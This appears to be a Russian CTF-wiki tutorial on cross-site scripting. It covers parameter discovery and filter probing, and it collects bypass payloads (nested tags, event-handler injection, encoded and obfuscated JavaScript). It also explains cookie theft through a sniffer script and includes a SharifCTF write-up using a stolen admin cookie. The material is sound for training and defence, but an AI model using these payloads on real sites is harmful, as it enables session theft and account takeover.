




# XSS
Cross Site Scripting — тип атаки на веб-системы, заключающийся во внедрении в выдаваемую веб-системой страницу вредоносного кода (который будет выполнен на компьютере пользователя при открытии им этой страницы) и взаимодействии этого кода с веб-сервером злоумышленника.

## Нахождение XSS
Разделим нахождение на несколько пунктов

__Поиск параметров__  
Для нахождения параметров можно либо воспользоваться программкой, встроенной в BurpSuite, либо найти все параметры вручную сниффером.  
Чтобы включить spider'а, нужно правой кнопкой по директории -> Spider this host  


__В параметры входят не только POST/GET и другие типы запросов!__ Вот пример, где xss появляется из-за вывода url (чаще всего на 404 страницах) в bWAPP:  


__Подстановка__  
Для проверки параметров первоначально нужно удостовериться, что код выводится на странице.
Что делаем: в каждый параметр вставляем уникальную строку, которой нет на странице и делаем поиск по исходному коду.  
Пример:
```
Ссылка на эту страницу:
     /index.php?title=Xss
```
Видим, что есть параметр title (но не забывайте смотреть и пост параметры)  
Тогда подставим в него строку `'testtesttest'`.

Видим, что наш текст вывелся - записываем его куда-нибудь и повторяем это действие с другими параметрами.  
В итоге к этому моменту у нас на руках список параметров, которые нужно продолжать проверять дальше.

__Изучение фильтров__  
Теперь начинается самое интересное!  
Подставляем следующую строку в параметр:
```
  '":;<>/\[]<script><h1>
```
И далее идет разделение на результат:

__Отсутствие фильтров__  
Если у вас текст так и остался неизменным, то мои поздравления - ВЫ нашли XSS!  


__Убрался `<script>`__  
Если у вас вдруг исчез ТОЛЬКО `<script>`, то вероятнее всего идет поиск по опасным тегам - но и это в современном мире обходится.  
Теперь посмотрим внимательнее - если у вас из строки `...a'<script>'b...` получилась строка `...ab...` то делаем следующее:  
```
test<scr<script>ipt>test
```

В итоге у нас должна получиться строка вида:  
```
test<script>test
```

Ну и опять же SUCCESS!

__Убрались И `<script>` И `<h1>`__  
В этом случае чаще всего идет прогон по всем известным миру тегам - и тут обойти можно только при некоторых обстоятельствах (одно из них вы можете посмотреть в пунке 'убрались знаки <>')

__Исчезли знаки `'<'` и `'>'`__  
Тут уже интереснее тк зависит от окружения.

__В ``<a href='test'>`` и других параметрах в ' или " кавычках__  
Тут к нам на помощь придут такие параметры, как `onload` или `onmouseover`.
Что будет, если отослать `test' onload='alert()' a='`?  
А вот что:
```html
 <a href='test' onload='alert()' a=>
```
В итоге у нас запустится окошко алерта!

__В тегах `<script>...</script>`__  
Тк рассчитываем, что у нас фильруются только знаки `'<'` и `'>'`, то почти любой код в яве можно Написать без них - а тем более Дописать.  
Возьмем в пример следующий код:
```javascript
<script>
       var a = 'text';
</script>
```
А теперь смотрим, что будет при подстановке `test1'; alert(); var b = 'test2`  :
```javascript
<script>
        var a = 'text';
        alert();
        var b = 'test2';
</script>
```
В итоге наш код заработает, и при достижении второй строки скрипта появится окошко алерта!  
P.S.ВАЖНО!!! Если вы ошибетесь в синтаксисе js, то ваш код скорее всего не заработает. Поэтому советую проверять все в консоли.

__Большинство символов преобразовались в `&g t ; &l t ;` и др__
В этом случае вся переменная обрабатывается PHP (дополните функции из других яп) функцией под названием htmlspecialchars.  
Про нее подробно написано тут: http://php.net/manual/ru/function.htmlspecialchars.php  
А вот и пример ее использования (взято с google.com):  


В этом случае защиту, увы, пока никак не обойти... пока...

## Эксплуатация XSS
Ну нашли мы XSS - и что это нам дало? В этом пункте я приведу некоторые примеры (скорее всего их больше) эксплуатации XSS.

__Кража cookies__  
Ну самое известное - это конечно кража чужих куки, с последующей заменой свои куки на куки жертвы и захода в аккаунт.  
Что требуется для этого  

* Сниффер
* Контакт с жертвой
* XSS

Начну с описания сниффера

__Сниффер__  
Обьясню доступным языком. Cниффер (в данном случае) - скрипт, записыващий все обращения к нему (в том числе и полый url).  
Например у нас есть на каком то сервере файл `site.ru/sniffer.php` , (пример кода позже) который записывает все обращения к нему.

Вот я зашел на `site.ru/sniffer.php?testtesttest` - и у него в логах записалось
```
1) ip
2) useragent
3) testtesttest
```
, где testtesttest - чаще всего куки приписанные.  
А теперь обьясняю почему на этот список стоит обратить внимание - многие задания с этим связаны на тасковых ctf.  
Распространенные задания:
```
Есть чатобот (таких часто в вк встретишь) - который читает все сообщения.
Читает он их как обыкновенный человек - открывает в браузере,поддерживающем javascript.  
Нужно у него получить какой-то из пунктов (ip, useragent и(или) куки(чаще всего!))
```
Как они проходятся:
```
Обходим защиту xss (при ее наличии).
Посылаем бота на наш сниффер.
Получаем все нужные данные со сниффера.
```
Все это время мы разбирали хранимые XSS (когда xss сохраняется на сервере). Вот вам пример задания на НЕ хранимую (когда xss привязывается к url):
```
Есть скрипт, открывающий все ссылки,которые ему передали.
Читает он их как обыкновенный человек - открывает в браузере,поддерживающем javascript.  
Нужно у него получить какой-то из пунктов (ip, useragent и(или) куки(чаще всего!))
```
Решение такое - же.

__CSRF+XSS__  
Опять же вкратце - выполняет за пользователя действия, которые пользователь врят ли бы выполнил в здравом уме (например сделать администратором кого-то).  
Тут кроме XSS, еще и требуется CSRF уязвимость - про нее почитать можете у нас в другом разделе.

Опять пример:
```
Есть чатобот (таких часто в вк встретишь) - который читает все сообщения.
Читает он их как обыкновенный человек - открывает в браузере, поддерживающем javascript.  
Нужно у него получить флаг, который он может отправить только при post запросе при, например, нажатии на какую-либо кнопку.
```
Решение:
```
Раскручиваем XSS
Пишем XSS скрипт, отсылающий нужный нам запрос от лица жертвы.
Получаем флаг и ништяки=)
```

## Частные случаи обхода фильтров
Вынес в отдельную часть тк xss по большей части от обхода фильтрации и зависит(она и является обходом фильтров:) (примеры собрал с нескольких сайтов - в разделе статей их напишу)
```
alert(String.fromCharCode(120,97,107,110,101,116,46,114,117))
```
```
alert(unescape(/%78%61%6b%6e%65%74%2e%72%75/.source))
```
```

```
```

```
```

```
```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgneGFrbmV0LnJ1Jyk8L3NjcmlwdD4=">
```
Обход путем двойного urlencode (bWAPP):
```
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%29%3c%2f%73%63%72%69%70%74%3e
```
"В качестве обфускации вектора, можно использовать ActionScript через Flash, путём использования переменных и присваивания им значений, которые являются частями xss-кода."
```
a="get";
b="URL(\"";
c="javascript:";
d="alert('message');\")";
eval(a+b+c+d);
```
"Использование UTF-7.Заключается данный способ в изменении кодировки символов xss-вектора на UTF-7. Это может сработать в тех случаях, когда в странице не указывается кодировка, и атакующий может заставить страницу испольвоть UTF-7, тем самым, обойти фильтрацию, изменив некоторые из символов UTF-8 на UTF-7."
```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"></HEAD>+ADw-SCRIPT+AD4-alert('message');+ADw-/SCRIPT+AD4-
```
В статье http://dsec.ru/ipm-research-center/article/bypassing_the_filtering_of_the_uploaded_images_in_a_number_of_web_applications_for_the_implementatio/ рассказывается обход фильтрации с помощью картинки.

http://raz0r.name/news/xss-filters-bypass-on-blackhat/  
А вот уже с блекхата:
```
(É=[Å=[],µ=!Å+Å][µ[È=-~-~++Å]+({}+Å) [Ç=!!Å+µ,ª=Ç[Å]+Ç[+!Å],Å]+ª])() [µ[Å]+µ[Å+Å]+Ç[È]+ª](Å)
($=[$=[]][(__=!$+$)[_=-~-~-~$]+({}+$)[_/_]+($$=($_=!
+$)[_/_]+$_[+$])])()[__[_/_]+__[_+~$]+$_[_]+$$](_/_)
```
И на последок - http://www.smeegesec.com/2012/06/collection-of-cross-site-scripting-xss.html  
Тут вы можете найти список xss пейлоадов для тестирования.

## Множество примеров
__SHarifCTF 2016 - WEB photoblog__

__Описание__  
url - http://ctf.sharif.edu:33455/chal/PhotoBlog/d57ad4d0f9afd1f1/ A friend of mine have stolen my cat's picture on his blog. I want to login as admin user on his blog. Do you have any idea?

__Решение__
```
1. C dirs3arch мы можем найти авторизацию админа: admin.php которая редиректит нас на login.php. Все это только потому что у нас нет правильной сессии.
2. XSS в поле под комментарии,
3. <script>document.write('')</script>
4. Украденные куки админа: PHPSESSID=515386866780b5f132fc96c02b3ddb82.
5. Используя их, мы можем открыть страницу админки и получить флаг: c03dfe9d79b2dd4a0c8352949bde9ab9
```

## Статьи и прочее
__Статьи__  
https://github.com/codedokode/pasta/blob/master/security/xss.md  
https://ru.wikipedia.org/wiki/%D0%9C%D0%B5%D0%B6%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D1%8B%D0%B9_%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B8%D0%BD%D0%B3  
https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29  
http://forum.antichat.ru/threads/20140/  
http://forum.antichat.ru/threads/224582/  
http://dsec.ru/ipm-research-center/article/bypassing_the_filtering_of_the_uploaded_images_in_a_number_of_web_applications_for_the_implementatio/

__Райтапы__  
NorthSec 2015 - XSS Challenge Writeups  
http://holyvier.blogspot.ru/2015/05/northsec-xss-challenge-writeups.html

CSAW CTF 2014 - WEB 300  
http://wiremask.eu/csaw-ctf-2014-web-300-hashes-writeup/

__Тренировки__  
https://xss-game.appspot.com/  
http://www.root-me.org/en/Challenges/Web-Client/Javascript-Stored-XSS-1  
http://www.root-me.org/en/Challenges/Web-Client/Javascript-Stored-XSS-2


----
взято с сайта http://itsecwiki.org/
